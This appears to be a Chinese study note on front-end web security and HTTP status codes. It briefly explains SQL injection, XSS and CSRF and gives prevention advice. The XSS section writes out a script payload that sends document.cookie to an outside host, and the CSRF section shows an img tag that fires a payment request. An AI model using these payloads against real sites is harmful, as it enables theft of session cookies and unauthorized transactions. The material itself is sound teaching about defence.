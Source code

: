 
# Web安全
## SQL注入
验证输入
## XSS (Cross Site Scripting, 跨站脚本攻击)
1. DOM Based XSS
假设网站的content内容是由query中content决定的. 将`http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>`这个链接通过邮件发给用户, 用户点击后会被盗取cookie信息;

2. Stored XSS
在某博客平台发表的文章中插入`<script>window.open(“www.b.com?param=”+document.cookie)</script>`

**预防**
1. 字符替换用户输入的代码`<, >, &, ", ', / ....`;
2. cookie增加`http-only`限制, 禁止js操作
header头`set-Cookie: ..........; HttpOnly`

## CSRF (Cross-site request forgery, 跨站请求伪造)
CSRF 是借用了当前操作者的权限来偷偷地完成某个操作，而不是拿到用户的信息。
>个用户已经登录了http://buy.com，在选择商品时，突然收到一封邮件，而这封邮件正文有这么一行代码`<img src="http://buy.com/pay?touid=999&money=100"/>`，他访问了邮件之后，其实就已经完成了购买。

1. 涉及现金交易的肯定要输入密码或者指纹
2. 敏感接口使用POST而不是GET

# 前端动态

# 项目经验



# HTTP
1xx：信息状态码

2xx：请求成功
200 OK
201 Created 新建资源隨location返回
202 Accepted 接受但尚未处理
204 No Content 处理但没任何内容
205 Reset Content 处理但没有任何内容, 且要求重载视图

3xx：重定向
300 Multiple Choices 被请求的资源有一系列可供选择的回馈信息
301 Moved Permanently 资源已被移走
302 Found 临时重定向
304 Not Modified
305 Use Proxy 被请求的资源必须通过指定的代理才能被访问
